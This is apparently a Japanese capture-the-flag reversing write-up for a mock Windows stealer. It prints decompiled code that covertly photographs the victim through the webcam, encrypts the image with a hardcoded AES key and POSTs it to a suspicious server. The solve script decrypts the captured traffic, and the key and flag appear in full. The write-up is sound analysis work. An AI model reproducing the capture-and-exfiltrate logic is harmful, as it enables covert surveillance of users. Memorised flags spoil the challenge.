

# Stealerusk : Rev

怪しいサイトを見ていたのがバレちゃったかも><

注:
* 本問題のバイナリは実際のマルウェアを元に実装されたものです。実行しても害はありませんが、隔離された環境以外では実行しないことを推奨します。
* 本問題は Windows の環境がなくても解くことが可能です。

Attachment  
[stealerusk.tar.gz](stealerusk.tar.gz)  

Difficulty Level : Very Hard  
Tags : Windows  
Author : chocorusk

# Solution

**問題概要**  
Windowsマルウェアを模したバイナリとpcapファイルが渡される。  
webカメラで写真を撮影し、AES-CBCで暗号化した画像データを怪しいサイトに送信するexeファイルを解析して、pcapファイルからの画像データ取得とその画像データの復号によってflagを得られる。

Reversing問であることを前提に、復号鍵は.dataにべた書きされていることが推測できるので、stringsの結果と合わせることによってexeファイルの処理内容を解析せずともflagを得ることはできる。  
しかし、本writeupはエスパー要素を含まない解法を述べることとする。(エスパー解法はReferencesを参照)

**観察**  
* エントリポイント
```c
void entry(void)

{
  FUN_140001f3c();
  FUN_140001b64();
  return;
}
```
FUN_140001f3cは何らかの初期化をしており、FUN_140001b64がexeファイルのメイン処理である。

* メイン処理
```c
/* WARNING: Function: _guard_dispatch_icall replaced with injection: guard_dispatch_icall */

int FUN_140001b64(void)

{
  bool bVar1;
  bool bVar2;
  int iVar3;
  undefined8 uVar4;
  code **ppcVar5;
  ulonglong uVar6;
  longlong *plVar7;
  uint *puVar8;
  undefined8 unaff_RBX;
  undefined8 in_R9;
  undefined uVar9;
  
  iVar3 = (int)unaff_RBX;
  uVar4 = FUN_140001d38(1);
  if ((char)uVar4 == '\0') {
    FUN_140002058(7);
  }
  else {
    bVar1 = false;
    uVar9 = 0;
    uVar4 = __scrt_acquire_startup_lock();
    iVar3 = (int)CONCAT71((int7)((ulonglong)unaff_RBX >> 8),(char)uVar4);
    if (DAT_140005090 != 1) {
      if (DAT_140005090 == 0) {
        DAT_140005090 = 1;
        iVar3 = _initterm_e(&DAT_140003290,&DAT_1400032a8);
        if (iVar3 != 0) {
          return 0xff;
        }
        _initterm(&DAT_140003278,&DAT_140003288);
        DAT_140005090 = 2;
      }
      else {
        bVar1 = true;
        uVar9 = 1;
      }
      __scrt_release_startup_lock((char)uVar4);
      ppcVar5 = (code **)FUN_140002048();
      if ((*ppcVar5 != (code *)0x0) &&
         (uVar6 = FUN_140001e00((longlong)ppcVar5), (char)uVar6 != '\0')) {
        (**ppcVar5)(0,2,0,in_R9,uVar9);
      }
      plVar7 = (longlong *)FUN_140002050();
      if ((*plVar7 != 0) && (uVar6 = FUN_140001e00((longlong)plVar7), (char)uVar6 != '\0')) {
        _register_thread_local_exe_atexit_callback(*plVar7);
      }
      _get_initial_wide_environment();
      __p___wargv();
      puVar8 = (uint *)__p___argc();
      uVar6 = (ulonglong)*puVar8;
      iVar3 = FUN_140001990();
      bVar2 = FUN_140002068();
      if (bVar2) {
        if (!bVar1) {
          _cexit();
        }
        __scrt_uninitialize_crt(CONCAT71((int7)(uVar6 >> 8),1),'\0');
        return iVar3;
      }
      goto LAB_140001cd0;
    }
  }
  FUN_140002058(7);
LAB_140001cd0:
                    /* WARNING: Subroutine does not return */
  exit(iVar3);
}
```
* FUN_140001990
```c
void FUN_140001990(void)

{
  int iVar1;
  undefined auStack_848 [32];
  undefined8 local_828 [2];
  wchar_t local_818 [512];
  WCHAR local_418 [512];
  ulonglong local_18;
  
  local_18 = DAT_140005000 ^ (ulonglong)auStack_848;
  GetCurrentDirectoryW(0x200,local_418);
  local_828[0] = 0;
  SHGetKnownFolderPath(&DAT_1400032d0,0,0,local_828);
  FUN_140001080(local_818,0x200,L"%s\\ayashii-folder",local_828[0]);
  iVar1 = wcsncmp(local_418,local_818,0x200);
  if (iVar1 == 0) {
    FUN_140001640();
    FUN_1400017b0(DAT_140005108,DAT_140005110);
  }
  FUN_140001a60(local_18 ^ (ulonglong)auStack_848);
  return;
}
```
cwd(現在の作業ディレクトリ)を取得して`<KnownFolder>\ayashii-folder`のときのみ、情報窃取のコードが実行される

* FUN_140001640
```c
undefined8 FUN_140001640(void)

{
  BOOL BVar1;
  HWND hWnd;
  undefined8 uVar2;
  LRESULT LVar3;
  int local_20;
  
  hWnd = (HWND)capCreateCaptureWindowW(L"capture",0,0,0,0x280,0x1e0,0,0);
  if (hWnd == (HWND)0x0) {
    uVar2 = 1;
  }
  else {
    BVar1 = IsWindow(hWnd);
    if (BVar1 == 0) {
      local_20 = 0;
    }
    else {
      LVar3 = SendMessageW(hWnd,0x40a,0,0);
      local_20 = (int)LVar3;
    }
    if (local_20 == 0) {
      uVar2 = 1;
    }
    else {
      Sleep(1000);
      SendMessageW(hWnd,0x405,0,0x1400015e0);
      DAT_140005114 = 0;
      LVar3 = SendMessageW(hWnd,0x43d,0,0);
      if (LVar3 == 0) {
        BVar1 = IsWindow(hWnd);
        if (BVar1 != 0) {
          SendMessageW(hWnd,0x40b,0,0);
        }
        uVar2 = 1;
      }
      else {
        Sleep(500);
        BVar1 = IsWindow(hWnd);
        if (BVar1 != 0) {
          SendMessageW(hWnd,0x40b,0,0);
        }
        uVar2 = 0;
      }
    }
  }
  return uVar2;
}
```
capCreateCaptureWindowWというWebカメラなどのキャプチャ用ウィンドウを作る関数が呼び出される。  
`SendMessageW(hWnd,0x405,0,0x1400015e0);`の0x405は`WM_CAP_SET_CALLBACK_FRAME`であり、SendMessageWの第4引数lParamに設定したcallback関数を同期的に呼び出されるWndProc関数経由で実行する。  
今回は0x1400015e0の関数が実行される。

* FUN_140001100
```c
void FUN_140001100(PUCHAR param_1,ULONG param_2,PUCHAR param_3,UCHAR **param_4,int *param_5)

{
  NTSTATUS NVar1;
  size_t _Size;
  ulonglong uVar2;
  UCHAR *pUVar3;
  PUCHAR pUVar4;
  UCHAR *pUVar5;
  undefined auStackY_d8 [32];
  UCHAR *local_80;
  PUCHAR local_78;
  PUCHAR local_68;
  uint local_60;
  uint local_5c;
  uint local_58 [2];
  BCRYPT_HANDLE local_50;
  BCRYPT_KEY_HANDLE local_48;
  ULONG local_40 [2];
  UCHAR local_38 [16];
  ulonglong local_28;
  
  local_28 = DAT_140005000 ^ (ulonglong)auStackY_d8;
  local_50 = (BCRYPT_HANDLE)0x0;
  local_48 = (BCRYPT_KEY_HANDLE)0x0;
  local_40[0] = 0;
  local_58[0] = 0;
  local_60 = 0;
  local_68 = (PUCHAR)0x0;
  local_78 = (PUCHAR)0x0;
  local_80 = (UCHAR *)0x0;
  local_5c = 0;
  NVar1 = BCryptGenRandom((BCRYPT_ALG_HANDLE)0x0,local_38,0x10,2);
  if (((((-1 < NVar1) &&
        (NVar1 = BCryptOpenAlgorithmProvider(&local_50,L"AES",(LPCWSTR)0x0,0), -1 < NVar1)) &&
       (NVar1 = BCryptSetProperty(local_50,L"ChainingMode",(PUCHAR)L"ChainingModeCBC",0x20,0),
       -1 < NVar1)) &&
      ((NVar1 = BCryptGetProperty(local_50,L"ObjectLength",(PUCHAR)local_58,4,local_40,0),
       -1 < NVar1 &&
       (NVar1 = BCryptGetProperty(local_50,L"BlockLength",(PUCHAR)&local_60,4,local_40,0),
       -1 < NVar1)))) &&
     ((local_60 == 0x10 &&
      ((local_68 = (PUCHAR)malloc((ulonglong)local_58[0]), local_68 != (PUCHAR)0x0 &&
       (local_78 = (PUCHAR)malloc((ulonglong)local_60), local_78 != (PUCHAR)0x0)))))) {
    pUVar3 = local_38;
    pUVar4 = local_78;
    for (uVar2 = (ulonglong)local_60; uVar2 != 0; uVar2 = uVar2 - 1) {
      *pUVar4 = *pUVar3;
      pUVar3 = pUVar3 + 1;
      pUVar4 = pUVar4 + 1;
    }
    NVar1 = BCryptGenerateSymmetricKey(local_50,&local_48,local_68,local_58[0],param_3,0x10,0);
    if ((-1 < NVar1) &&
       (NVar1 = BCryptEncrypt(local_48,param_1,param_2,(void *)0x0,local_78,local_60,(PUCHAR)0x0, 0,
                              &local_5c,1), -1 < NVar1)) {
      _Size = (size_t)(local_5c + 0x10);
      if (0xffffffef < local_5c) {
        _Size = 0xffffffffffffffff;
      }
      local_80 = (UCHAR *)malloc(_Size);
      if (local_80 != (UCHAR *)0x0) {
        pUVar3 = local_38;
        pUVar4 = local_78;
        for (uVar2 = (ulonglong)local_60; uVar2 != 0; uVar2 = uVar2 - 1) {
          *pUVar4 = *pUVar3;
          pUVar3 = pUVar3 + 1;
          pUVar4 = pUVar4 + 1;
        }
        NVar1 = BCryptEncrypt(local_48,param_1,param_2,(void *)0x0,local_78,local_60,local_80 + 0x10
                              ,local_5c,&local_5c,1);
        if (-1 < NVar1) {
          pUVar3 = local_38;
          pUVar5 = local_80;
          for (uVar2 = (ulonglong)local_60; uVar2 != 0; uVar2 = uVar2 - 1) {
            *pUVar5 = *pUVar3;
            pUVar3 = pUVar3 + 1;
            pUVar5 = pUVar5 + 1;
          }
          *param_4 = local_80;
          *param_5 = local_5c + 0x10;
          local_80 = (UCHAR *)0x0;
        }
      }
    }
  }
  if (local_80 != (UCHAR *)0x0) {
    free(local_80);
  }
  if (local_78 != (PUCHAR)0x0) {
    free(local_78);
  }
  if (local_68 != (PUCHAR)0x0) {
    free(local_68);
  }
  if (local_48 != (BCRYPT_KEY_HANDLE)0x0) {
    BCryptDestroyKey(local_48);
  }
  if (local_50 != (BCRYPT_ALG_HANDLE)0x0) {
    BCryptCloseAlgorithmProvider(local_50,0);
  }
  FUN_140001a60(local_28 ^ (ulonglong)auStackY_d8);
  return;
}
```
0x1400015e0の関数から順に呼び出される関数を追っていくとFUN_140001100に辿り着く。  
FUN_140001100ではデータをAESのCBCモードで暗号化している。`BCryptGenerateSymmetricKey` Win APIに注目する。
```c
NTSTATUS BCryptGenerateSymmetricKey(
  [in, out]       BCRYPT_ALG_HANDLE hAlgorithm,
  [out]           BCRYPT_KEY_HANDLE *phKey,
  [out, optional] PUCHAR            pbKeyObject,
  [in]            ULONG             cbKeyObject,
  [in]            PUCHAR            pbSecret,
  [in]            ULONG             cbSecret,
  [in]            ULONG             dwFlags
);
```
[BCryptGenerateSymmetricKeyの定義](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptgeneratesymmetrickey) を確認すると、第5引数はAES-CBCの鍵であることが分かる。  
FUN_140001100でBCryptGenerateSymmetricKeyに渡している第5引数はparam_3である。  
param_3を突き止めるために関数の呼び出し元を確認すると、FUN_1400015a0でDAT_140005078をFUN_140001100の第3引数として渡していることが確認できる。
```c
undefined8 FUN_1400015a0(PUCHAR param_1,ULONG param_2)

{
  undefined8 uVar1;
  
  uVar1 = FUN_140001100(param_1,param_2,&DAT_140005078,(UCHAR **)&DAT_140005108,&DAT_140005110);
  return CONCAT71((int7)((ulonglong)uVar1 >> 8),1);
}
```
DAT_140005078のデータ
```
9de75c29b50738710d83493973fdeb9c
```
また、IVは暗号文の先頭に付け加えていることが分かる。

* FUN_1400017b0
```c

void FUN_1400017b0(undefined8 param_1,int param_2)

{
  int iVar1;
  undefined auStack_78 [32];
  ulonglong local_58;
  undefined8 local_50;
  ulonglong local_48;
  longlong local_38;
  undefined4 local_30;
  longlong local_28;
  longlong local_20;
  int local_18 [2];
  ulonglong local_10;
  
  local_10 = DAT_140005000 ^ (ulonglong)auStack_78;
  local_30 = 0;
  local_20 = 0;
  local_28 = 0;
  local_38 = 0;
  local_58 = local_58 & 0xffffffff00000000;
  local_20 = WinHttpOpen(L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, lik e Gecko) Chrome/142.0.0.0 Safari/537.36"
                         ,0,0,0);
  if ((local_20 != 0) &&
     (local_28 = WinHttpConnect(local_20,L"meccha-ayashii-server.internal",0x50,0), local_28 != 0 ))
  {
    local_48 = local_48 & 0xffffffff00000000;
    local_50 = 0;
    local_58 = 0;
    local_38 = WinHttpOpenRequest(local_28,L"POST",L"/waiwai",0);
    if (local_38 != 0) {
      local_48 = 0;
      local_50 = CONCAT44(local_50._4_4_,param_2);
      local_58 = local_58 & 0xffffffff00000000;
      iVar1 = WinHttpSendRequest(local_38,L"Content-Type: application/octet-stream\r\n",0xfffffff f,0
                                );
      if (iVar1 != 0) {
        local_18[0] = 0;
        iVar1 = WinHttpWriteData(local_38,param_1,param_2,local_18);
        if (((iVar1 != 0) && (local_18[0] == param_2)) &&
           (iVar1 = WinHttpReceiveResponse(local_38,0), iVar1 != 0)) {
          local_30 = 1;
        }
      }
    }
  }
  if (local_38 != 0) {
    WinHttpCloseHandle(local_38);
  }
  if (local_28 != 0) {
    WinHttpCloseHandle(local_28);
  }
  if (local_20 != 0) {
    WinHttpCloseHandle(local_20);
  }
  FUN_140001a60(local_10 ^ (ulonglong)auStack_78);
  return;
}
```
content-typeがapplication/octet-streamの暗号化したデータをmeccha-ayashii-server.internalの/waiwaiにHTTPでPOSTしている。

**方針**  
pcapファイルからwaiwaiをエクスポートし、exeファイルから抽出した鍵でwaiwaiデータをAES-CBC復号する。

**手順**  
1. pcapファイルからwaiwaiをエクスポート
   * pcapファイルをWiresharkで開く
   * File→オブジェクトをエクスポート→HTTPを開き、ファイルを保存
2. exeファイルのアドレス140005078から16bytesのデータを抽出
3. waiwaiの先頭16bytesをIVとして抽出
4. waiwaiをkeyとivを利用して復号
5. 復号したデータをpngとして保存
6. 保存した画像ファイルを開く

**Solver**
```python solve.py
from Crypto.Cipher import AES

key = bytes.fromhex("9de75c29b50738710d83493973fdeb9c")

with open("waiwai", "rb") as f:
    data = f.read()

iv = data[:16]
ciphertext = data[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
plaintext = cipher.decrypt(ciphertext)

# PKCS7パディング除去
pad_len = plaintext[-1]
plaintext = plaintext[:-pad_len]

with open("flag.png", "wb") as f:
    f.write(plaintext)
```

**Exploitation**  
```
$ python3 solve.py
```


Got the flag.

`Alpaca{compromising_webcam_screenshot}`

# References

```
# Esper Solution Method

$ strings chal.exe
...
capCreateCaptureWindowW
...

$ strings -el chal.exe
ChainingModeCBC
ChainingMode
ObjectLength
BlockLength
capture
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
meccha-ayashii-server.internal
/waiwai
POST
Content-Type: application/octet-stream
%s\ayashii-folder

$ objdump -s -j .data chal.exe

chal.exe:     file format pei-x86-64

Contents of section .data:
 140005000 32a2df2d 992b0000 00000000 00000000  2..-.+..........
 140005010 00000000 00000000 00000000 00000000  ................
 140005020 00000000 00000000 00000000 00000000  ................
 140005030 00000000 00000000 00000000 00000000  ................
 140005040 cd5d20d2 66d4ffff ffffffff 01000000  .] .f...........
 140005050 01000000 02000000 00000800 00000000  ................
 140005060 00000002 00000000 ffffffff ffffffff  ................
 140005070 01000000 00000000 9de75c29 b5073871  ..........\)..8q
 140005080 0d834939 73fdeb9c 00000000 00000000  ..I9s...........
 140005090 00000000 00000000 00000000 00000000  ................
 1400050a0 00000000 00000000 00000000 00000000  ................
 1400050b0 00000000 00000000 00000000 00000000  ................
 1400050c0 00000000 00000000 00000000 00000000  ................
 1400050d0 00000000 00000000 00000000 00000000  ................
 1400050e0 00000000 00000000 00000000 00000000  ................
 1400050f0 00000000 00000000 00000000 00000000  ................
 140005100 00000000 00000000 00000000 00000000  ................
 140005110 00000000 00000000 00000000 00000000  ................
 140005120 00000000 00000000 00000000 00000000  ................
```
pcapファイルを見たら、まず始めに○○ストリームの閲覧とオブジェクトのエクスポートを試みる。  
ここで謎のファイル名waiwaiのoctet-streamが手に入る。注目ポイントはサイズが97kBであること。

バイナリを見たら、とりあえずstringsをすることで、ある程度処理内容が分かる。  
今回は`ChainingModeCBC`と`capCreateCaptureWindowW`からwaiwaiがAESのCBCモードで暗号化されている画像データであると推測できる。  
さらに、Captureしている部分から、chocorusk氏がflagの書かれた紙を持っている写真が出てくることが推測できる。(入力しやすいflagで助かりました)

鍵は.dataにべた書きされていると推測してobjdumpすると、140005078のところに丁度16bytesのデータが見つかる。  
AES-CBCでは暗号文の先頭にIVが付加するのが一般的。

以上の情報を利用して画像データを復号することによって、flagが得られる。
